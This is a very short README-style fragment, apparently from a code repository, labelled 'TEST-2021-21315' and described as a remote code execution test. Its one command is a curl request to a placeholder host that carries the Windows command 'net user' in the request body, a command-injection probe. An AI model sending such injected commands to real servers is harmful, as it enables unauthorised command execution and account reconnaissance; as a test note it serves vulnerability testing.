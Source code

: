 # TEST-2021-21315
- TEST-2021-21315

# about
- this is TEST-2021-21315 RCE

# RCE
- curl "www.xxx.com/whoami" --data "net user"
